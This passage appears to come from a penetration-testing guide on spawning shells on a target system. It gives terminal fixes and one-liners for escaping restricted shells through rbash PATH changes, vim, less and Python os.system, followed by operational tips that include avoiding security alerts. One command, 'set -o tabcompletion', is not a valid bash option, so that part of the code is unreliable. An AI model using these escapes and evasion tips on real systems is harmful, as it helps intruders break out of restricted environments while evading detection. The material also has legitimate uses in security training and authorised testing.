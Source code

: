 **Problem 3: Terminal Size Issues**
```bash
# Solution: Set terminal dimensions
stty rows 24 columns 80
# Or get current terminal size
stty size
```

**Problem 4: No Tab Completion**
```bash
# Solution: Enable programmable completion
set -o tabcompletion
# Or load bash completion
source /etc/bash_completion
```

### Shell Escape Techniques

**From Restricted Shells:**
```bash
# Break out of rbash
export PATH=/bin:/usr/bin:$PATH
cd /tmp && exec bash

# Vim escape
vim
:set shell=/bin/bash
:shell

# Less/more escape
less /etc/passwd
!/bin/bash

# Python escape
python -c "import os; os.system('/bin/bash')"
```

## Best Practices for Shell Spawning

### Selection Strategy

1. **Assess available resources** on target system
2. **Start with most reliable methods** (Python, /bin/sh)
3. **Fall back to system utilities** if needed
4. **Consider permission requirements** for each method
5. **Test shell stability** after spawning

### Operational Considerations

1. **Minimize noise** during shell spawning
2. **Avoid triggering security alerts** with unusual commands
3. **Document successful methods** for future reference
4. **Plan for shell loss** and recovery methods
5. **Understand environment limitations** before proceeding
